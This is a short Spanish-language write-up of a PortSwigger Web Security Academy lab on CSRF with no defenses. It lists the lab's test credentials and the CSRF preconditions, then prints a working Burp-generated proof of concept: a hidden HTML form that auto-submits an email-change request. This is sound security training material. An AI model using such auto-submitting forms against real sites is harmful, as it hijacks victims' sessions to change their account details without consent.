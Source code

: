
Tags: #CSRF #PortSwigger
# Lab 1 CSRF Vulnerability with no defenses 

Explotar el CSRF y cambiar la dirección de correo.

Creds - wiener:peter 

## Sección de análisis 

```bash 
1. Una acción relevante                              - Funcionalidad de cambio de email
2.  Manejo de una sesión basada en Cookie            - Sesion de Cookie 
3. Parámetro de petición imprevisible                - 
```

## CSRF PoC - HTML

```HTML 
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ac7001d03cc4e768530088d007d0021.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="o&#64;o&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

